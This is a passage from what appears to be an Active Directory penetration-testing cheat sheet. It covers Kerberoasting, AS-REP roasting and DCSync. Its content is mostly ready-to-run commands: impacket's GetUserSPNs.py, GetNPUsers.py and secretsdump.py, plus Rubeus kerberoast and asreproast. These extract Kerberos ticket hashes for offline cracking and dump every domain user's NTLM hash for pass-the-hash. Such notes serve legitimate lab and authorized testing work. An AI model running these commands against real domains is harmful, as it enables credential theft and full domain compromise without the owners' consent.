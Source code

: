 ```bash
GetUserSPNs.py domain.local/user:password -request
```

This will ask to the `DC` a `TGS`and will diplay it as a hash. At this point, we will crack the hash oflline to obtain the password. In case of obteining the password we will have all the machine of the domain `(Pwn3d!)` in `CME`.

##### Rubeus

We can reproduce the same process above, but instead of using the `impacket` suite and attacking from the attackers machine, uploading the `Rubeus.exe` binary to the target machine. We can retrieve the `TGS` hash with the following command:

```powershell
Rubeus.exe kerberoast /creduser:domain.local\user /credpassword:password
```

### ASRepRoast

#### ¿How to know if target is vulnerable?

In order to make a machine ASRepRoastable we can do the following: Active Directory Users and Computers > Select the user that we want to be vulnerable > Account > Do not require Kerberos preauthentication.


#### TGT

If a user does not have the Kerberos preauthentication enabled, we can list their `TGTs` (Ticket Granting Tickets) using the following command:

```bash
GetNPUsers.py domain.local -no-pass -usersfile users
```

In case that a user is vulerable, we can see how its `TGT` hash is being displayed. We can crack it offline.

##### Rubeus

We can do the same proccess but instead of using the `impacket` from our machine, uploading the `Rubeus.exe` binary to the target machine. We can retrieve the `TGT` hash with the following command:

```powershell
Rubeus.exe asreproast /user:user /domain:domain.local /dc:DC
```


### DCSync

If we have valid credentials for a user and this user has the  `GetChanges` and  `GetChangesAll` privileges over the domain,we can execute an attack named `DCSync`. This attack will allow us to display the `NTLM` hashes of all the users of the domain. Remember that this `NTLM` hashes can be used for the `PassTheHash` technique. To do this:

```bash
secretsdump.py -dc-ip 10.10.10.1 domain.local/user:password@10.10.10.1
```

